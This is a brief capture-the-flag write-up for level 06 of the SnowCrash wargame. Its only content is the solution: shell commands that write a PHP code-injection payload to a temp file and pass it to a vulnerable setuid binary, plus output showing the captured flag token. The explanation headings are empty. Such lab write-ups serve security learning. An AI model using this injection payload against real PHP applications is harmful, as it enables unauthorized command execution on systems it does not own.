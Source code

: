 # Level 06

## Vulnerability

## Context

## Solution

```
level06@SnowCrash:~$ echo '[x {${`getflag`}}]' > /tmp/getflag
```

```
level06@SnowCrash:~$ cat /tmp/getflag
[x {${`getflag`}}]
```

```
level06@SnowCrash:~$ ./level06 /tmp/getflag
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
```
